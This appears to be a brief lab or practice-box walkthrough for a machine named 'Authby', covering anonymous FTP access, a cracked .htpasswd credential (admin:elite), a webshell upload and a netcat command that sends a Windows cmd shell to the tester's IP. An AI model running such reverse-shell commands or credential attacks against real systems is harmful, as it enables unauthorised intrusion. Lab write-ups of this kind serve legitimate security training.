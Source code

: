 # Authby

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

After scanning for open ports, i saw that i had ftp anonymous with plenty of files, let's see if there are some interesting stuff, i did not find anything interesting accesible&#x20;

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

But it does not work for the moment but i'm able to connect as admin:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://hackviser.com/tactics/pentesting/services/ftp#reverse-shell-over-website" %}

I'm able to upload a shell:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

In the admin share we got .htpasswd file:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

and we're able to crack the hash to admin:elite

looking at the web service:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

and we are able to log in:&#x20;

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

and i'm able to get a ping back:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

but no persistent shell so i need to make a better work

so i download this:

{% embed url="https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985" %}

and we're able to pop a webshell:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

I tried running reverse shell commands and php and C and powershell but it was not&#x20;

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

so i transfered nc.exe to the target and used it to make a bind shell:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

since it's windows i have to bind to a cmd shell:

```
nc.exe 192.168.49.54 1234 -e cmd
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
